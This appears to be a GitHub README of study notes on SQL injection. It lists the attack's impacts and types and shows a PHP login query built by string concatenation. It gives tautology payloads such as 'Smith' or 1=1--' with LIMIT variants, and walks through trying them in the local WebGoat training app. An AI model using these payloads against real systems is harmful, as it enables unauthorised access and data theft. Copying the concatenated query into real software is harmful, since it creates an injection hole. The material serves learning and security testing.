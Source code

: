 # SQL-Injection

## Impact of SQL Injection :

- Extract sensitive information

- Misusing authentication details

- Delete data & Drop tables

## Types of SQL Injection

SQL Injection

1. In-Band SQLi
   
     a. Error Based
     
     b. Union Based
     
2. Blind SQLi

     a. Boolean Based
     
     b. Time Based
    
3. Out of bound SQLi

## SQL Injection 

   SAMPLE:
   
   $statement = " SELECT * FROM users WHERE username = '$user' AND password = '$password' ";
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath' AND password = 'dowlath' ";
   
   HACKER:
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath OR '1' == '1' --' AND password = '$password' ";
   
   Example :
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5-- 

## TEST

1. Google find " webgoat8 "

2. Download github jar file from corresponding location.

3. If you downloaded latest version *.jar file , it will support latest version of java. So before run the jar file check once you java -version.

4. Run the jar file => D:\Spring-Boot-Security\sql-injection-webgoat-8.0>java -jar "webgoat-server-8.0.0.M17.jar"

5. Login in the browser -> http://localhost:8080/WebGoat/login

 ![login](https://user-images.githubusercontent.com/9671419/87229033-963eef00-c3c2-11ea-823e-dfbb428e860e.PNG)

6. If you are not registered create the user and access.

7. Execute the sql inject commands.

   As follows patterns,
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5--    
  
![webgoat_2](https://user-images.githubusercontent.com/9671419/87229035-97701c00-c3c2-11ea-9eeb-785e3aeaa679.PNG)

![screen-shot-2018-06-29-at-53856-pm](https://user-images.githubusercontent.com/9671419/87229036-9808b280-c3c2-11ea-9638-eba871456918.png)
